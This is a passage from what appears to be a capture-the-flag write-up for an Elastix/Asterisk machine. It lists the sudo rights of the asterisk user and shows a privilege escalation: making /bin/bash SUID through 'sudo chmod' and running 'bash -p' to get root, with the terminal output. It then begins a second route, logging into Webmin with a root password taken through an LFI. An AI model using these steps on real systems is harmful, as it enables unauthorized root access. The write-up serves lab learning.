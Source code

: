     User asterisk may run the following commands on this host:
        (root) NOPASSWD: /sbin/shutdown
        (root) NOPASSWD: /usr/bin/nmap
        (root) NOPASSWD: /usr/bin/yum
        (root) NOPASSWD: /bin/touch
        (root) NOPASSWD: /bin/chmod
        (root) NOPASSWD: /bin/chown
        (root) NOPASSWD: /sbin/service
        (root) NOPASSWD: /sbin/init
        (root) NOPASSWD: /usr/sbin/postmap
        (root) NOPASSWD: /usr/sbin/postfix
        (root) NOPASSWD: /usr/sbin/saslpasswd2
        (root) NOPASSWD: /usr/sbin/hardware_detector
        (root) NOPASSWD: /sbin/chkconfig
        (root) NOPASSWD: /usr/sbin/elastix-helper



`chmod` jumps out right away. I'll pick a file, like `/bin/bash`, and
set it to SUID:



    bash-3.2$ ls -l /bin/bash
    -rwxr-xr-x 1 root root 729292 Jan 22  2009 /bin/bash
    bash-3.2$ sudo chmod 4755 /bin/bash
    bash-3.2$ ls -l /bin/bash
    -rwsr-xr-x 1 root root 729292 Jan 22  2009 /bin/bash



Now just run it (with `-p` to not drop privs) and get a root shell:



    bash-3.2$ bash -p
    bash-3.2# id
    uid=100(asterisk) gid=101(asterisk) euid=0(root)



## Webmin \[Path #2\]

Trying the username root with the passwords I collected from the LFI, I
can login to webmin with root / jEhdIekWmdjE. This interface is designed
to administer the machine, and has full root access:
